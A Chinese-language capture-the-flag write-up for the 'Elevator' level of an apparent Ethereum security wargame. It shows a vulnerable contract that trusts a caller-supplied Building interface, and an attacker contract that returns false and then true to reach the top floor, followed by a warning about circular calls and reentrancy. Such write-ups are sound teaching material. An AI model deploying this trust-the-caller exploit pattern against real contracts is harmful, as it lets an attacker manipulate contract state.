

# level11 Elevator

## 1. 问题

要求你到达 `Elevator` 合约的顶层，也就是设置合约中 `top` 字段值为 `true`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 2. 解法

因为 `Building` 合约是我们自己实现的，所以我们可以定制这个逻辑，让 `if (!building.isLastFloor(_floor))` 时函数返回 `false`，等到后续 `top = building.isLastFloor(floor)` 时返回 `true`.

1. 代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    int private visitCount = 0;
    
    function isLastFloor(uint256 _floor) public returns (bool) {
        if (visitCount == 0) {
            // 第一次调用，返回false, _floor不重要
            // 调整visitCount，让后续无法再进入这个分支
            visitCount ++;
            return false;
        } else {
            // 后面再调用，会走到这个分支
            return true;
        }
    }
    
    // 用来触发调用 goTo 函数
    function trigger(address _elevator, uint256 _floor) external {
        Elevator(_elevator).goTo(_floor);
    }
}
```

2. 在remix上编译部署，然后触发 `trigger` 函数，[交易链接]():




## 3. 补充说明

> [!IMPORTANT]
> 尽量避免循环调用！
> 
> 在我们的例子中， `Building` 合约调用了 `Elevator` 合约中的 `goTo` 函数，而这个函数内部又回调了 `Building` 合约的 `isLastFloor`, 形成合约间的循环调用。
> 
> 一般来说，我们应该避免合约间循环调用：
> 1. 循环调用容易出现 `重入攻击`
> 2. 循环调用可能导致gas费用过高（合约间调用次数多）
> 3. 容易因为最后的某次失败导致总体失败
> 4. 链路复杂，可测性低、维护困难
